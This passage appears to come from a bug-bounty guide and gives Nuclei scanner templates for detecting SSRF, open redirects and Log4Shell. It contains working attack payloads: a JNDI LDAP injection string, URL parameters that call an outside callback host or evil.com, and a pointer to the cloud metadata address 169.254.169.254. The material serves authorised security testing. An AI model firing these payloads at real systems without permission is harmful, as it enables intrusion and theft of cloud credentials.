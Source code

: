 4. **SSRF Detection**
   - **Use**: Probe for blind/full SSRF in URL params; high-reward in cloud-based targets.
   - **Example Template** (Basic SSRF):
     ```yaml
     id: basic-ssrf
     info:
       name: Basic SSRF Vulnerability
       author: custom-hunter
       severity: high
       tags: ssrf
     http:
       - method: GET
         path:
           - "{{BaseURL}}?url={{interactsh-url}}"
         matchers:
           - type: dsl
             dsl:
               - "contains(interactsh_protocol, 'http')"
     ```
   - **How to Use**: Use interact.sh for callbacks; chain with cloud metadata (e.g., AWS 169.254.169.254).

5. **Open Redirects**
   - **Use**: Find redirect params for phishing or SSRF pivots; low-hanging fruit in auth flows.
   - **Example Template**:
     ```yaml
     id: open-redirect
     info:
       name: Open Redirect
       author: custom-hunter
       severity: low
       tags: redirect
     http:
       - method: GET
         path:
           - "{{BaseURL}}/redirect?url=http://evil.com"
         matchers:
           - type: redirect
             redirect:
               - "http://evil.com"
     ```
   - **How to Use**: Scan login/logout endpoints; report if chains to higher impact.

6. **CVE-Specific (e.g., Log4Shell)**
   - **Use**: Target known CVEs in outdated software; automate for large scopes.
   - **Example Template** (Adapted for Log4j):
     ```yaml
     id: log4shell
     info:
       name: Log4Shell Detection
       author: custom-hunter
       severity: critical
       tags: cve, log4j
     http:
       - method: GET
         path:
           - "{{BaseURL}}?param=${jndi:ldap://{{interactsh-url}}}"
         matchers:
           - type: dsl
             dsl:
               - "contains(interactsh_protocol, 'dns')"
     ```
   - **How to Use**: Run on Java-based targets; confirm with manual exploit.
